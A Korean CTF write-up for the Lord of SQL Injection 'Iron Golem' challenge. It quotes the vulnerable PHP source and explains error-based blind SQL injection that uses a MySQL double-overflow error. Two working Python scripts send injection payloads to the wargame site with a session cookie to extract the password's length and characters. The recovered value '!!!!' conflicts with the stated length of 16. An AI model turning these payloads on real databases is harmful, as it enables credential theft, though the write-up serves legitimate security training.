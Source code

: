 # Lord of SQL Injection No.21 -Iron Golem
## 문제 출제 의도
Error Based SQL Injection의 이해 여부를 확인한다.
## 소스 코드 분석
+ 소스코드
~~~
    <?php
    include "./config.php"; 
    login_chk(); 
    dbconnect(); 
    if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
    if(preg_match('/sleep|benchmark/i', $_GET[pw])) exit("HeHe");
    $query = "select id from prob_iron_golem where id='admin' and pw='{$_GET[pw]}'";
    $result = @mysql_fetch_array(mysql_query($query));
    if(mysql_error()) exit(mysql_error());
    echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
    $_GET[pw] = addslashes($_GET[pw]);
    $query = "select pw from prob_iron_golem where id='admin' and pw='{$_GET[pw]}'";
    $result = @mysql_fetch_array(mysql_query($query));
    if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("iron_golem");
    highlight_file(__FILE__);
    ?>
~~~

+ 소스 코드 분석
    - 금지 문자, 문자열
        * Get 방식으로 받은 pw값에 'prob _ . ( )중 하나라도 있다면 "No Hack~_~"이 출력되고 문제 풀이에 실패한다.
        * GET방식으로 받은 pw에 공백이 있으면 "sleep", "benchmark" 중 하나라고있다면 "HeHe"가 출력되고 문제풀이에 실패한다.
    - 에러 출력
        ~~~
        if(mysql_error()) exit(mysql_error());
        ~~~
        * MySQL 쿼리 수행에 오류가 있으면 오류를 출력하고 문제 풀이에 실패한다. 
    - 풀이 성공 조건
        * 데이터베이스에서 받은 pw와 GET방식으로 전달받은 pw가 같아야 한다.
## 문제 해결
- Mysql 지수 연산 최대치 이용
    + MySQL에서는 e를 이용한 지수 연산이 가능하다.
    ~~~
    >>> 9e0
    9.0
    >>> 9e1
    90.0
    >>>9e10
    90000000000.0
    ~~~
    + 지수 연산의 최대치는 9e307이다.
    + 9e308부터는 ERROR 1367 (22007): Illegal double '9e308' value found during parsing 와 같이 에러가 난다.
    + 이를 이용하여 9e307*2등을 이용해 에러를 유도 할 수 있다.
- pw 길이
    + 다음의 코드를 이용하여 pw의 길이를 구할 수 있다.
    ~~~
    import urllib.request
    from urllib.parse import quote

    key = ""
    i=1
    pwlen = 0

    while i :
        url = "http://los.eagle-jump.org/iron_golem_d54668ae66cb6f43e92468775b1d1e38.php?pw="
        data = "' or id='admin' and if((length(pw)='{}'),9e307*2,0)#".format(str(i))
        print(data)
        
        data = quote(data)
        re = urllib.request.Request(url + data)
        re.add_header("User-agent", "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/62.0.3202.75 Safari/537.36")
        re.add_header("Cookie", "PHPSESSID=4csf3od9cfat47akhjak8okpi6")

        response = urllib.request.urlopen(re)

        if str(response.read()).find("DOUBLE value is out of range") != -1:
            pwlen = i
            print('pw length : ' + str(pwlen))
            break   
        i+=1    
    ~~~
    + 위 코드를 실행하면 pw=16이 출력된다.
- pw 값
    + if문
        * if 문은 다음과 같은 형식을 취한다.
        ~~~
        if(값,참일때,거짓일때)
        ~~~
    + pw 의 값은 다음과 같은 코드를 이용해 알아내면 편리하다.
    ~~~
    import urllib.request
    from urllib.parse import quote

    for i in range(1, pwlen + 1):
        for j in range(32, 127):
            url = "http://los.eagle-jump.org/iron_golem_d54668ae66cb6f43e92468775b1d1e38.php?pw="
            data = "' or id='admin' and if((substr(pw, 1, {})='{}'),9e307*2,0)#".format(str(i), key + chr(j))
            print(data)

            data = quote(data)
            re = urllib.request.Request(url + data)
            re.add_header("User-agent", "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/62.0.3202.75 Safari/537.36")
            re.add_header("Cookie", "PHPSESSID=4csf3od9cfat47akhjak8okpi6")

            req = urllib.request.urlopen(re)

            if str(req.read()).find("DOUBLE value is out of range") != -1:
                key += chr(j).lower()
                print(key)
                break
    print(key)
    ~~~
    + 이를 실행하면 pw=!!!!이 출력된다.
    + !!!!을 pw에 GET방식으로 입력하면 문제 풀이에 성공한다.